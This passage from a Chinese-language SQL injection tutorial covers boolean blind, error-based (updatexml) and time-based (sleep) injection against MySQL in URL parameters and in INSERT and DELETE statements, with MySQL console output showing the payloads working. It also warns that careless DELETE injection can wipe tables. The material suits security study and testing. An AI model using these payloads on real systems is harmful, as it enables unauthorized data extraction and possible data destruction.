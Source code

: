#### 1.3.2 布尔盲注

```
?id=1' and substr((select user()),1,1)='r' -- +
?id=1' and IFNULL((substr((select user()),1,1)='r'),0) -- +
#如果 IFNULL 第一个参数的表达式为 NULL，则返回第二个参数的备用值，不为 Null 则输出值

?id=1' and strcmp((substr((select user()),1,1)='r'),1) -- +
#若所有的字符串均相同，STRCMP() 返回 0，若根据当前分类次序，第一个参数小于第二个，则返回 -1 ，其它情况返回 1 


```

### 1.4 insert,delete,update

insert,delete,update 主要是用到盲注和报错注入，此类注入点不建议使用 sqlmap 等工具，会造成大量垃圾数据，一般这种注入会出现在 注册、ip 头、留言板等等需要写入数据的地方, 同时这种注入不报错一般较难发现，我们可以尝试性插入、引号、双引号、转义符 \\ 让语句不能正常执行，然后如果插入失败，更新失败，然后深入测试确定是否存在注入

#### 1.4.1 报错

```
mysql> insert into admin (id,username,password) values (2,"or updatexml(1,concat(0x7e,(version())),0) or","admin");
Query OK, 1 row affected (0.00 sec)

mysql> select \* from admin;
+------+-----------------------------------------------+----------+
| id   | username                                      | password |
+------+-----------------------------------------------+----------+
|    1 | admin                                         | admin    |
|    1 | and 1=1                                       | admin    |
|    2 | or updatexml(1,concat(0x7e,(version())),0) or | admin    |
+------+-----------------------------------------------+----------+
3 rows in set (0.00 sec)

mysql> insert into admin (id,username,password) values (2,""or updatexml(1,concat(0x7e,(version())),0) or"","admin");
ERROR 1105 (HY000): XPATH syntax error: '~5.5.53'

#delete 注入很危险，很危险，很危险，切记不能使用 or 1=1 ，or 右边一定要为false
mysql> delete from admin where id =-2 or updatexml(1,concat(0x7e,(version())),0);
ERROR 1105 (HY000): XPATH syntax error: '~5.5.53'


```

#### 1.4.2 盲注

```
#int型 可以使用 运算符 比如 加减乘除 and or 异或 移位等等
mysql> insert into admin values (2+if((substr((select user()),1,1)='r'),sleep(5),1),'1',"admin");
Query OK, 1 row affected (5.00 sec)

mysql> insert into admin values (2+if((substr((select user()),1,1)='p'),sleep(5),1),'1',"admin");
Query OK, 1 row affected (0.00 sec)

#字符型注意闭合不能使用and
mysql> insert into admin values (2,''+if((substr((select user()),1,1)='p'),sleep(5),1)+'',"admin");
Query OK, 1 row affected (0.00 sec)

mysql> insert into admin values (2,''+if((substr((select user()),1,1)='r'),sleep(5),1)+'',"admin");
Query OK, 1 row affected (5.01 sec)

# delete 函数 or 右边一定要为 false
mysql> delete from admin where id =-2 or if((substr((select user()),1,1)='r4'),sleep(5),0);
Query OK, 0 rows affected (0.00 sec)
```
